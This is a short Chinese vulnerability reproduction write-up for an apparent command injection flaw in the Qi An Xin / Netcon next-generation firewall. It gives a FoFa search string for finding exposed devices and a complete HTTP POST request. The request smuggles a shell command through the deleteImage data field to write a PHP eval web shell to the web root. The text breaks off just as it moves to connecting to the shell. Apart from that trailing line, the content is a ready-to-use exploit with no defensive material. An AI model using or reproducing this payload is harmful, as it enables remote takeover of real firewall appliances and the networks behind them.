

# 影响范围：
奇安信网康下一代防火墙
# FoFa Dork
app="网康科技-下一代防火墙"
# 漏洞复现：
登录页面：

使用burpsuite进行抓包，并构造如下数据包发送，在服务器端写入一句话：  
```
POST /directdata/direct/router HTTP/1.1
Host:xxx.xxx.xxx.xxx

{"action":"SSLVPN_Resource","method":"deleteImage","data":[{"data":[";echo '<?php @eval($_POST['pass']);?>' >/var/www/html/shell.php"]}],"type":"rpc","tid":17,"f8839p7rqtj":"="}
```
  
连接一句话：  
  
  